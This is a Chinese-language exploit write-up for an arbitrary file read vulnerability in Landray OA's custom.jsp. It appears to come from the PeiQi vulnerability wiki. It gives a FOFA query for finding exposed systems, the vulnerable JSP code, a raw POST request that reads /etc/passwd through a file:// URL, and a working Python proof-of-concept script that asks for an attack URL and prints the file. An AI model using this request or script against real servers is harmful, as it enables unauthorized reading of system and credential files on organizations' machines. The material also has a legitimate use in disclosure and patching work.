

# 蓝凌OA custom.jsp 任意文件读取漏洞

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息。

## 漏洞影响

```
蓝凌OA
```

## FOFA

```
app="Landray-OA系统"
```

## 漏洞复现

出现漏洞的文件为 custom.jsp

```jsp
<%@page import="com.landray.kmss.util.ResourceUtil"%>
<%@page import="net.sf.json.JSONArray"%>
<%@page import="net.sf.json.JSONObject"%>
<%@ page language="java" pageEncoding="UTF-8"%>
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
<%
 JSONObject vara =
JSONObject.fromObject(request.getParameter("var"));
 JSONObject body = JSONObject.fromObject(vara.get("body"));
%>
<c:import url='<%=body.getString("file") %>'>
 <c:param name="var" value="${ param['var'] }"></c:param>
</c:import>
```

请求包为

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"file:///etc/passwd"}}
```


## 漏洞POC

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import base64
import requests
import random
import re
import json
import sys

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 蓝凌OA 任意文件读取                                          \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/sys/ui/extend/varkind/custom.jsp"
    headers = {
                "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
                "Content-Type": "application/x-www-form-urlencoded"
    }
    data = 'var={"body":{"file":"file:///etc/passwd"}}'
    try:
        response = requests.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)
        print("\033[36m[o] 正在请求 {}/sys/ui/extend/varkind/custom.jsp \033[0m".format(target_url))
        if "root:" in response.text and response.status_code == 200:
            print("\033[36m[o] 成功读取 /etc/passwd \n[o] 响应为:{} \033[0m".format(response.text))

    except Exception as e:
        print("\033[31m[x] 请求失败:{} \033[0m".format(e))
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl   >>> \033[0m"))
    POC_1(target_url)
```

